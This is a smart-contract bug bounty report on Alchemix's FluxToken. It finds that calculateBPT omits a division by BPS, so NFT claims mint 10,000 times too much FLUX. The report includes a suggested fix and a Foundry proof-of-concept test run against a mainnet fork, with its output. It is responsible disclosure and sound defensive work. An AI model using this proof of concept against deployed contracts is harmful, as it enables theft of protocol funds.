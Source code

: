 
# `FluxToken.calculateBPT` uses wrong algorithm causing `FluxToken.nftClaim` revenue to be 10,000 times higher than expected

Submitted on Fri May 17 2024 13:31:09 GMT-0400 (Atlantic Standard Time) by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31380

Report type: Smart Contract

Report severity: High

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro

The `FluxToken` contract allows users to mint some $FLUX at once using AlchemechNFT or AlEthNFT. The number of mint is calculated based on the `tokenData` of the NFT. However, `FluxToken.calculateBPT` does not divide by `BPS` resulting in the number of mint being 10000 times larger than expected.

## Vulnerability Details

Please look at the following code. The `getClaimableFlux` function is used to calculate the number of mint. It calls the `calculateBPT` function.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L215-L216
    function getClaimableFlux(uint256 _amount, address _nft) public view returns (uint256 claimableFlux) {
        uint256 bpt = calculateBPT(_amount);
```

Let's look at the `calculateBPT` function, which multiplies `_amount` by `bptMultiplier`.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L232-L234
    function calculateBPT(uint256 _amount) public view returns (uint256 bptOut) {
        bptOut = _amount * bptMultiplier;
    }
```

According to the comment of the `bptMultiplier` variable, it should represent `0.4%`. So, multiplied by `bptMultiplier` should be divided by `BPS (10000)`

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L43-L44
    /// @notice The ratio of FLUX patron NFT holders receive (.4%)
    uint256 public bptMultiplier = 40;
```

Note: The two divisions by `BPS` in the `getClaimableFlux` function correspond to the following variables, which have nothing to do with `bptMultiplier`.

- `fluxPerVe`: 5000 represents 50%
- `alchemechMultiplier`: 5 represents 0.05%

**Suggested fix**

```diff
    function calculateBPT(uint256 _amount) public view returns (uint256 bptOut) {
-       bptOut = _amount * bptMultiplier;
+       bptOut = _amount * bptMultiplier / BPS;
    }
```

## Impact Details

Users can get 10,000 times more $FLUX than expected

## References

None
        
## Proof of concept
The PoC patch

```diff
diff --git a/src/test/FluxToken.t.sol b/src/test/FluxToken.t.sol
index 22876a9..fb45d52 100644
--- a/src/test/FluxToken.t.sol
+++ b/src/test/FluxToken.t.sol
@@ -250,4 +250,18 @@ contract FluxTokenTest is BaseTest {
         assertEq(unclaimedFlux1End, 0, "should have no unclaimed flux");
         assertEq(unclaimedFlux2End, totalAmount, "should have all unclaimed flux");
     }
+
+    function testYttriumzzPocTemp() external {
+        uint256 patronNFTId = 4;
+        address patronNFTOwner = IAlEthNFT(patronNFT).ownerOf(patronNFTId);
+
+        console.log("tokenData of patronNFT: %s", IAlEthNFT(patronNFT).tokenData(patronNFTId));
+
+        uint256 fluxBalanceBefore = flux.balanceOf(patronNFTOwner);
+
+        hevm.prank(patronNFTOwner);
+        flux.nftClaim(patronNFT, patronNFTId);
+
+        console.log("Get $FLUX: %s", flux.balanceOf(patronNFTOwner) - fluxBalanceBefore);
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/FluxToken.t.sol:FluxTokenTest
[PASS] testYttriumzzPocTemp() (gas: 118155)
Logs:
  tokenData of patronNFT: 249991869582520600
  Get $FLUX: 7499756087469342000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 14.90ms (889.67µs CPU time)

Ran 1 test suite in 792.98ms (14.90ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

The `tokenData` of the NFT is `0.24999186958252062`, and the mint $FLUX is `7.499756087469342`.